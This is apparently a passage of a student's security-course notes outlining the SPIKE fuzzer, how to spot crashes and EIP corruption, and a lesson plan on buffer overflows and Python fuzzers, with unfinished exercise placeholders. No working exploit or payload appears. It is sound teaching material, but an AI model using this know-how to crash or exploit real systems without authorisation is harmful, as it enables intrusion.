    * generic_web_server_fuzz
    * generic_listen_tcp
    * generic_send_udp
    * generic_web_server_fuzz2
* SPIKE Scripts
  * SPIKE scripts provide the framework for customized C code fuzzers  
 
  * Example (simple) script:  
  
* Capturing SPIKE Results
  * SPIKE is a very fast fuzzer that sends tons of data. So how do we know if it worked?
  * Capturing the data:
    * Attach target process to debugger
    * Open Wireshark and configure it to monitor all fuzzing attempts
    * Try to step through (F 7) and see if EIP is corrupted  

    
* Launching a script in SPIKE
  * Once a script has been configured, launching it is straightforward.
  * For our purposes we'll be utilizing generic_send_tcp:  

  

### Lesson 13 Summary

* In this lesson we will discuss:
  * Overflowing buffers
    * Manually
    * Simple Python scripts
    * Fuzzers
  * Developing your own fuzzer
    * Create your own simple network fuzzer with Python
    * Improve functionality and flexibility of your fuzzer
  * Preparing to conduct buffer overflow exploits

___

## Exercise - Module 2, Lesson 11 – Python Modules

___

[Module 2, Lesson 11 Script File](./Scripts/Python/Mod2L11-Python-Modules.py)  

___

## Exercise - Module 2, Lesson 12 – Python and ExploitDB

___

<answer to be sumbitted>

___

## Exercise - Module 2, Lesson 13 – Simple Fuzzer

___

<answer to be sumbitted>

___

## Exercise - Module 2, Lesson 13 – SPIKE

___

<answer to be sumbitted>

___

## Exercise - Module 2, Lesson 13 – Intermediate Fuzzer

___

<answer to be sumbitted>

___
